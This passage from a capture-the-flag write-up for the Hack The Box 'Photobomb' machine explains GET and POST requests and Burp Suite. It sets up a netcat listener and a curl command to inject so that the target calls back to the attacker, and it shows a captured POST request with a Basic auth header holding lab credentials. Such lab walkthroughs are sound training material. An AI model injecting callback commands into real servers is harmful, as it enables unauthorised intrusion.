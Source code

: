 That is a GET request, but what is a POST request. You might already feel it coming, but it sends data to the webserver instead of asking for it.

For example, you might update your username on a website. Then it will send a POST request that says, "Hey server! Me, the logged in user, wants to change the username to ABC". 
A POST request also has a response like a GET request, so it might reply with: "Yeh, I changed the username successfully to ABC".

Burpsuite is a tool (a piece of software) used for testing and analyzing these websites/webapplications.
It contains a proxy server, that is an application that you can point something else to and all traffic will be forwarded through it and captured.
So when we point our webbrowser to burpsuite, burpsuite then has some extra tools that are able to capture the traffic, modify it, and pass it along.

Back to the main quest :)

We can simply test our theory out by opening a listener on a port and letting the server connect to it using a command.
We can start a port listener using netcat a linux commandline tool for connecting to and listening on ports.

> Netcat is a computer networking utility for reading from and writing to network connections using TCP or UDP.
>
> https://en.wikipedia.org/wiki/Netcat

What that means is that is basically captures all network connections on the port we specify with our configuration. You can also use it to send data to some other system over a network connection.

```bash
nc -lnvp 9999
```

Then our command we will inject is

```bash
curlmyipaddress:9999
```

Curl is a linux command for loading websites, our port `9999` isn't a website but that doesn't really matter it will still send a GET request there it just won't respond with anything.

![](/assets/CTFs/HTB/Photobomb/burp-request-captured.png)
```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://photobomb.htb/printer
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```
